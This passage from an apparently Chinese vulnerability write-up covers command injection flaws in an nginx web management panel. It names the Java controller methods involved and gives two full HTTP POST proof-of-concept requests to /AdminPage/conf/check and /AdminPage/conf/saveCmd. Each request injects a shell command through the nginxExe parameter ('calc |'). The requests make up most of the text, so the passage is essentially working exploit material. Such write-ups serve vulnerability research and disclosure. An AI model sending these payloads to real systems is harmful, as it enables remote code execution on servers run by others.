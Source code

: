   
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqY5ylBjelrTCibiaUYFg5XqrF7GVrB1Itn2dZlRno1C7HBrlWrlW6TYVug/640?wx_fmt=png "")  
  
  
com.cym.controller.adminPage.ConfController#reload  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYAu2QnvHAH684zt89n7LMsibsTwVffEOWdsyamu8Nh8WWeZ8bMAuCrjA/640?wx_fmt=png "")  
  
‍  
  
**「命令执行五」**  
  
```
POST /AdminPage/conf/check HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/adminPage/remote
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

nginxExe=calc%20%7C&json={"nginxContent":"","subContent":"[]","subName":"[]"}&nginxPath=/1/
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqY6eK4HwJsxiaElI6rDbl22wQ82DFgh3D0BVIqqCqXFg3bXjgk0uykTxw/640?wx_fmt=png "")  
  
  
com.cym.controller.adminPage.ConfController#check  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYnI0R2VAntgeeOtZ1VgkfGYqxHduBtG8CVl0Hr6V7oBmP78EK9Vl5Bg/640?wx_fmt=png "")  
  
  
要满足很多条件才可以触发  
  
  
**「命令执行六」**  
  
‍  
```
POST /AdminPage/conf/saveCmd HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/adminPage/remote
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

nginxExe=calc%20%7C&nginxPath=/&nginxDir=/
```  
  